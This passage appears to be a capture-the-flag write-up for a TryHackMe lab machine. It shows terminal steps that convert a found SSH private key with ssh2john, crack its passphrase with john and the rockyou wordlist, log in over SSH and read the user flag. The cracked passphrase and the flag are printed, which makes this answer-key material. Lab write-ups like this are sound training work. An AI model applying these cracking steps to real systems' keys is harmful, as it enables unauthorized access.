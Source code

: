 1) I put the id_rsa in a file with nano:
```
┌──(kali㉿kali)-[~]
└─$ nano id_rsa 
```

2) I bring the id_rsa in a format that john can read:
```
┌──(kali㉿kali)-[~]
└─$ ssh2john id_rsa > hash
```

3) I crack the hash:
```
┌──(kali㉿kali)-[~]
└─$ john hash -wordlist:/usr/share/wordlists/rockyou.txt                                                                        
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)     
1g 0:00:00:00 DONE (2022-12-21 16:30) 8.333g/s 605066p/s 605066c/s 605066C/s saloni..rock14
Use the "--show" option to display all of the cracked passwords reliably
```

4) Change the privileges of the id_rsa:  chmod 600 id_rsa
5) What is John's RSA Private Key passphrase?  rockinroll 
6) I do access to ssh service:
```
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa john@10.10.252.159
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Dec 21 21:35:05 UTC 2022

  System load:  0.0                Processes:           102
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 39%                IP address for eth0: 10.10.252.159
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ 
```

7) I read user.txt:
```
john@bruteit:~$ cat user.txt
THM{a_password_is_not_a_barrier}
```
